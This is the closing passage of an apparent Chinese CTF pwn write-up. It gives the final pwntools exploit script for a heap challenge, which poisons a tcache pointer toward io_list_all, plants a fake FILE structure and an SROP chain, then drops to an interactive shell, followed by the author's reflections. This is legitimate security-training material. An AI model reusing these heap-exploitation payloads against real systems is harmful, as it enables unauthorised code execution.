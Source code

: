```py

message(b"BL*Support*Center@fl.support.center","t"*0xe1)


p.recvuntil("5. Exit\n")
p.sendline("4")
p.recvuntil("Name: ")
p.sendline(b"BL*Support*Center@fl.support.center")
p.recvuntil("Report: ")
p.sendline("FL*Support*Center@fl.support.center")
p.recvuntil("(yes or no)")
p.sendline("yes")
# gdb.attach(p)
# pause()
# 0x558fe7b38400 0x558fe7b24000
# get malloc 0x100 chunk
p.recvuntil("Message: \n")
p.sendline(p64(io_list_all^((heap_base + 0x38400-0x24000)>>12)).ljust(0xe1,b"a"))
# todo assemble fake chunk here
add(str(14).ljust(0xe1,"a"))
payload =p64(io_file_addr)+p64(0)*3+ p64(0xfbada086)
add(payload.ljust(0xe1,b"\x00"))

# 0x56026cad9480 —▸ 0x56026cadaee0 0x56026cadb950 0x56026cac6000
add(io_file)
add(srop.ljust(0xf1,b"\x00"))
# trigger 
# gdb.attach(p)
# pause()
p.recvuntil("5. Exit\n")
p.sendline("5")

p.interactive()
# 0x555555560000
```
其中 heap_base 可能是本地的，和远程不一致，这个有点玄学，把 lib 和 linker 全用 patchelf 换成了远程的版本 但是和 docker 内的结果也不太一致，有时间的话在 Docker 里面起 gdb 调一下吧      
## 总结
感觉总体打下来还是不难（至少比其他两个栈题 trick 少一些），感觉自己堆题的思维确实提升了，但是也感觉还是那种偏 dirty 的题目平时练少了，像是这次中的 misty mountain 和 vuln_img 思路上都很艰难，以及一开始找洞能力也是不足（感谢 dylanyang 学长 ~ ），还是要多加练习qaq ~     
